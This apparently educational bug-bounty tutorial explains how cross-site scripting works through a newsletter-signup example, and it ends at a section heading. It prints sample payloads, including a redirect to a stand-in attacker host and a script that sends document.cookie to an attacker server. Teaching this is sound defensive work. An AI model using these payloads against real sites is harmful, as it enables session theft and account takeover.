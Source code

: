 ## Cross-Site Scripting

XSS (Cross-site scripting) is one of the most common bugs reported to bug bounty programs. It pretty much constantly shows up in OWASPs list of the top 10 vulnerabilities year after year.

An XSS vuln occurs when attackers can execute a custom script on a victim's browser. If an app can't distinguish between user input and legit code that makes up a web page, the attackers can inject malicious code into pages that'll be viewed by other users. Pretty scary since this means that the victim's browser can execute this script which might steal info, redirect users to malicious sites, etc.

This section will go over what XSS vulns are, how to exploit em, and how to bypass some common protections. Also, we'll discuss how to escalate XSS vulns when you find one.

---

## Mechanisms

In an XSS attack, an executable script is injected into HTML pages. This is where being a web dev comes useful since we know JS and HTML. Thinking about it for more than 5 seconds, the problem child of HTML when it comes to XSS is nothing more than the `<script />` element that HTML files use to allow in-line script execution. Of course, browsers can also load JS via an external file by using the `src` attribute.

Let's look at an example of how this might work in practice.

```
<h1>Welcome to my site.</h1>
<h3>This is a cybersecurity newsletter that focuses on bug bounty
news and write-ups. Please subscribe to my newsletter below to
receive new cybersecurity articles in your email inbox.</h3>
<form action="/subscribe" method="post">
 <label for="email">Email:</label><br>
 <input type="text" id="email" value="Please enter your email.">
 <br><br>
 <input type="submit" value="Submit">
</form>
```

The above is a newsletter page that allows us to enter our email address to subscribe.
When we hit submit, a message will pop up:

```
<p>Thanks! You have subscribed <b>kirbyrules@gmail.com</b> to the newsletter.</p>
```

In this case, the page constructs the above message by using user input to show our email address that we just entered. Now...what if a user decides to input a script instead of an email address in the email form?

```
<script>location="http://attacker.com";</script>
```

If the website doesn't validate or sanitize the user input before constructing the confirmation message, the page's source code would become:

```
<p>Thanks! You have subscribed <b><script>location="http://attacker.com";</
script></b> to the newsletter.</p>
```

As a result, the inline script would cause the page to redirect to `attacker.com`. spooky!

XSS happens when attackers can inject scripts in this manner onto a page that another user's viewing. The attacker might also be able to use a different syntax to embed malicious code. Remember how we mentioned we could use the `src` attribute?

```
<script src=http://attacker.com/xss.js></script>
```

This example is interesting, since this example isn't really exploiotable, since attackers have no way of injecting the malicious script onto other users' pages aide from, say, redirecting themselves to a malicious page. BUT. Let's say that the site also allows users to subscribe to the newsletter by visiting a specific URL:

```
 https://subscribe.example.com?email=SUBSCRIBER_EMAIL
```

This is a pretty familiar pattern. In fact, think about how _Unsubscribing_ works. It's pretty standard that clicking the "Unsubscribe" button redirects you to somewhere else, where it then unsubscribes. In this case, attackers can therefore inject the script by tricking users into visiting a malicious email!

```
https://subscribe.example.com?email=<script>location="http://attacker.com";</script>
```

Since the malicious script gets incorporated into the page itself, the victim's browser will think that the script is a valid part of that site. The injected script can then access whatever resources that the browser stores for that site, including cookies and session tokens, thus letting attackers use these scripts to steal info and bypass access control. An example of this is that attackers might steal user cookies by making the victim's browser send a request to the attacker's IP with the victim's cookie as a URL param:

```
<script>image = new Image();
image.src='http://attacker_server_ip/?c='+document.cookie;</script>
```

This script contains JS that'll load an image from the attacker's server, with the attacker's IP being used for a GET request while using the URL param `c` (C for cookie 🍪)containing the user's document.cookie for the current site.

If the session cookie has the `HttpOnly` flag set, however, JS will not be able to read the cookie, which therefore means that the attacker won't be able to exfiltrate it. Regardless, XSS can be used to execute actions on the victim's behalf, modify the web page, and read the victim's sensitive info, usch as CSRF tokens, CC numbers, and anyhting else rendered on their page.

---

## Types of XSS
